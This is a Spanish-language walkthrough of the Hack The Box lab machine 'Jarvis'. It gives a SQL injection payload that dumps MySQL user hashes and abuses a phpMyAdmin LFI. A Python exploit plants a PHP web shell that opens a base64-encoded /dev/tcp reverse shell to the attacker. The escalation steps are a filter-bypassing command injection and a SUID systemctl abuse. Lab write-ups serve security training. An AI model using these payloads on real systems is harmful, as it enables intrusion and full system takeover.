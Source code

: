 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>

<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>

<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>

<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>

<img src="imgs/Jarvis/Jarvis4.png">


* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>

<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>

<img src="imgs/Jarvis/Jarvis6.png">

`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Desciframos el hash MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>

<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>

<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>

<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>

<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>

<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>

<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>

<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py

<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>


<video controls style="width: 100%; max-width: 700px; border-radius: 12px; margin: 0 auto; display: block;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>


* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>

<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>

<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>

<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>

<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>

<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>

<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>

<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>

<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>

<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>

<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>

<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>

<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>

<img src="imgs/Jarvis/Jarvis34.png">